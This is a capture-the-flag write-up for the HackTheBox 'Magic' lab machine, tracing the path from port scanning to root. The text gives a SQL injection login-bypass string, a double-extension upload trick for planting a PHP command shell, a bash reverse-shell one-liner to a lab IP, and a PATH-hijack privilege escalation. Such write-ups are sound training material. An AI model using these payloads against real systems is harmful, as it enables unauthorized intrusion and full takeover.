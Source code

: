 # **HACKTHEBOX – MAGIC WRITEUP**

![](/logo.png)

# **IP: 10.10.10.185**

# **Enumeration**

First, we will run nmap.

![](/Magic/nmap.png)


The scan shows 2 ports are open. Port 22 for SSH and port 80 for Apache.

I will start an all ports nmap scan ( -p ) just in case there are more open ports.

![](/Magic/nmap-allports.png)

The Apache web server has a wider attack surface, so that is what I am going to enumerate more first.

![](/Magic/homewebsite.png)

Port 80 gives a web page with a bunch of images.

Clicking an image only displays the clicked image.
![](/Magic/image-on-website.png)


# **FOOTHOLD**

There is a login button at the bottom left corner that takes me to a php login page.

![](/Magic/login.png)

Knowing that this web server has PHP files, I am going to start a gobuster for hidden directories and php files.

![](/Magic/gobuster.png)

There is a file called &quot;upload.php&quot;. Upload functions tend to be exploitable, so I am going to take a closer look at that file. Opening that files takes me back to the login page.

Whenever I meet a login page, I will always try some weak credentials. Sadly, they didn&#39;t work on this login page. So I try some SQL injection, but the page doesn&#39;t allow spaces for whatever reason. I use Burpsuite to intercept my login request and insert the SQL injection payload that way.

Username: &#39;OR 1=1 -- -

Password: doesn&#39;t matter

Press ctrl + u to URL encode and forward it to the server.

![](/Magic/sqlinjection.png)

We got logged in!

![](/Magic/upload.png)

Exploiting an upload function is easier using Burpsuite, that is where I am going to insert my payloads.

Uploading a php file returns an error.

![](/Magic/errorupload.png)

So there is some file type validations going on, we need to bypass it.

There are a few ways to validate a file. It can be through file extension, MIME type or magic bytes. So I am going to modify the request through the repeater tab (ctrl + r) hopefully bypass the file validations.

I upload a jpeg file and put some php code in it with Burpsuite.

![](/Magic/aaa.png)

This is a simple php code execution script and will run any command through the &quot;cmd&quot; parameter.

The original file name is &quot;lol.jpeg&quot; and I change it to &quot;lol.jpeg.php&quot;.

After that, I send the request to the server but I still get the error.

So I change the filename to &quot;lol.php.jpeg&quot; because there is a chance that apache .htaccess is configured in a weird way and run &quot;php.jpeg&quot; files as php.

![](/Magic/upload-success.png)

I successfully uploaded the file.

Now we need to access the file for the server to run the php code.

If you go back to the main page and click view image on an image there, the directory where the image is stored is on &quot;/image/uploads/&quot;. So I try to hit &quot;/image/uploads/lol.php.jpeg&quot;.

![](/Magic/access-thefile.png)

I successfully access the file. Now I will try injecting a command.

![](/Magic/injectcmd.png)

I run the command &quot;whoami&quot; and it returns www-data. We know for sure we have command execution.

Now we will try a reverse shell payload.

Payload: bash -c "bash -i >& /dev/tcp/10.10.14.2/9001 0>&1"

I set up a listener on port 9001, click send and we got a shell as www-data.

![](/Magic/reverseshell.png)

# **USER**

Looking at the db.php5 file, we got some credentials.

![](/Magic/db-creds.png)

Using those creds to switch user to &quot;theseus&quot; doesn&#39;t work, But we know this is a database credential, we access the database and get more stuff.

But mysql is not installed so I use &quot;mysqldump&quot; instead.

Dumping the database &quot;Magic&quot; gives more credentials.

![](/Magic/creds-inside-db.png)

Using the creds from the sqldump, I can switch to user &quot;theseus&quot;.

# **ROOT**

After getting the theseus user, I like to do some find commands to see what files belong to the user.

Running this returns a lot of stuff that I am too lazy to look at.

![](/Magic/find-user.png)

So I decided to use groups instead.

If we use the groups command, theseus belongs to a group called &quot;users&quot;.

![](/Magic/find-group.png)

Running the find command with groups returns only 1 binary and it is a setuid binary.

I try running the binary and it returns a bunch of system information.

I use strace with the &quot;-f&quot; flag to follow forks on the binary to get more information and I use grep to see what commands this binary is executing.

![](/Magic/strace.png)

The binary doesn&#39;t use absolute path which means we can abuse this.

I write a simple bash reverse shell script called &quot;free&quot;.

![](/Magic/bash-payload.png)

Then I modify the $PATH and add the directory where my &quot;free&quot; script is located and put it before the others.

![](/Magic/exploit-path.png)

Then I setup a listener on port 9002 and run the sysinfo binary and we got root!

![](/Magic/root.png)
